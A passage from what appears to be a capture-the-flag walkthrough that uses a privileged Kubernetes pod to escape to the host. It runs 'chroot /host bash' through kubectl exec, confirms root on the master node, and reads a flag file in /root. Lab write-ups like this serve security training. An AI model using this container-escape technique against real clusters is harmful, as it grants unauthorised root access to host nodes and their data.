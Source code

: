 ```bash
EOF
```

You should get: 

```
pod/everything-allowed-exec-pod created
```


8. Execute inside that pod: 

```bash
kubectl exec -it everything-allowed-exec-pod -- chroot /host bash
```

9. Enter the following command to see if we succeeded:

```bash
whoami
```

As you can see, we have `root`.

10. Verify you are inside the master node by checking the IP address: 

```bash
ip a
```

You will get **10.3.3.10**, which matches the host ip we found earlier. Next, search for the required file in the `/root/` directory. 

11. To move inside the root directory, enter: 

```bash
cd /root/
```

12. To see which files we have on the root directory, enter:

```bash
ls -la
```

You should see a file called `flag_two.txt`. Let's read it!

```bash
cat flag_two.txt
```

The output is the answer to Question 2 and the last flag.
